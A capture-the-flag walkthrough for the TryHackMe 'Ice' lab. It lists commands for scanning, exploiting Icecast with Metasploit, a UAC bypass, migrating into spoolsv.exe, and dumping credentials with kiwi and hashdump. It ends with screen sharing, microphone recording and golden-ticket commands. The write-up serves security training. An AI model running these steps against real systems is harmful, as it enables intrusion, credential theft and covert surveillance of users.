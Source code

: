 # Ice

**Room Link:** [https://tryhackme.com/room/ice](https://tryhackme.com/room/ice)



## Recon

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (116).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (65) (3).png" alt=""><figcaption></figcaption></figure>

## Gain Access

**Kali**

```
msfconsole
```

**Metasploit**

```
search icecast
use 0
set RHOSTS $VICTIM
run
```

<figure><img src="../../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>

## Escalate



<figure><img src="../../.gitbook/assets/image (55) (3).png" alt=""><figcaption></figcaption></figure>

**Meterpreter**

```
run post/multi/recon/local_exploit_suggester
background
```

<figure><img src="../../.gitbook/assets/image (131).png" alt=""><figcaption></figcaption></figure>

**Metasploit**

```
use exploit/windows/local/bypassuac_eventvwr
set SESSIONS 1
set LHOST $KALI
run
```

We are still user dark but have a lot of privilege's now

<figure><img src="../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

## Looting

**Meterpreter**

```
ps
```

<figure><img src="../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

**Meterpreter**

```
ps
migrate -N spoolsv.exe
```

**Meterpreter**

```
load kiwi
creds_all
```

<figure><img src="../../.gitbook/assets/image (18) (2).png" alt=""><figcaption></figcaption></figure>

**Meterpreter**

```
hashdump
```

<figure><img src="../../.gitbook/assets/image (70) (1).png" alt=""><figcaption></figcaption></figure>

**Meterpreter**

```
screenshare
record_mic
golden_ticket_create
```





















